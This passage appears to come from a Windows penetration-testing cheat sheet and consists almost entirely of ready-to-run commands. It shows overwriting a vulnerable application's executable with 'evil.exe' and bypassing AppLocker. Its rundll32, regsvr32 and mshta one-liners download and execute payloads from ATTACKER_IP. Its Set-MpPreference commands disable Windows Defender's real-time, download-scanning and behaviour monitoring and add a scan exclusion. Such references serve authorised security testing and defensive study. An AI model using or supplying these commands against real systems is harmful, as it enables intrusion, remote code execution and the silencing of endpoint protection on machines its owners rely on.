 ### Exploiting Writable Files
```powershell
# Replace executable with malicious one
copy /Y evil.exe "C:\Program Files\Vulnerable App\app.exe"

# Create an application shim for bypass
```

## AppLocker Bypass

### Check AppLocker Rules
```powershell
# View AppLocker rules
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Check for policy enforcement
Get-AppLockerPolicy -Effective -XML | Set-Content C:\temp\AlPolicy.xml
```

### Bypass Methods
```powershell
# Using PowerShell's AttachTo property
powershell.exe -NoP -NonI -w Hidden -Exec Bypass -c "Invoke-Expression(Get-Content C:\path\to\script.ps1)"

# Using rundll32
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/payload.ps1');");

# Using regsvr32
regsvr32 /s /n /u /i:http://ATTACKER_IP/payload.sct scrobj.dll

# Using mshta
mshta http://ATTACKER_IP/payload.hta
```

## Windows Defender Bypass

### Check Defender Status
```powershell
# Check Defender status
Get-MpComputerStatus

# Check exclusions
Get-MpPreference | select *Exclusion*
```

### Disable Defender (requires admin)
```powershell
# Disable real-time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable scanning of all downloaded files and attachments
Set-MpPreference -DisableIOAVProtection $true

# Disable behavior monitoring
Set-MpPreference -DisableBehaviorMonitoring $true

# Add exclusion path
Set-MpPreference -ExclusionPath "C:\temp"
```
